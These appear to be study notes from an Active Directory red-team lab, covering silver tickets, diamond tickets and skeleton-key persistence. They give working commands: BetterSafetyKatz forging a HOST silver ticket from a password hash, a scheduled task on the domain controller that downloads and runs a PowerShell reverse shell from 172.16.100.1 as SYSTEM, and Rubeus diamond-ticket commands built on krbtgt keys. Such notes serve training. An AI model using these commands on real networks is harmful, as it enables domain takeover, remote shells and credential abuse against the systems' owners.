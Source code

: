 LAPS - control local admin credentials, does not control service accounts so, silver ticket will not be applied to laps

Create a silver ticket for the HOST SPN which will allow us to schedule a task on the target:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
~~~
This is Noisy

Schedule and execute a task

~~~
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
~~~

~~~
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
~~~


#### Diamond Ticket

- its created by decrypting a valid TGT, making changes to it and re-encrypt it using the AES keys of the krbtgt account
- golden ticket was a TGT forging attacks whereas diamond ticket is a TGT modification attack
- the persistence lifetime depends on krbtgt account


We would still need krbtgt AES keys. **Use the following Rubeus command to create a diamond ticket** (note that RC4 or AES keys of the user can be used too):

~~~
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /user:studentx /password:StudentxPassword /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
~~~

We could also use **/tgtdeleg** option in place of credentials in case we have access as a domain user:

~~~
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg 	/enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
~~~


#### Skeleton Key

- its a persistence technique where its possible to patch a Domain Controller **(lsass process)** so that it allows access as any user with a single password

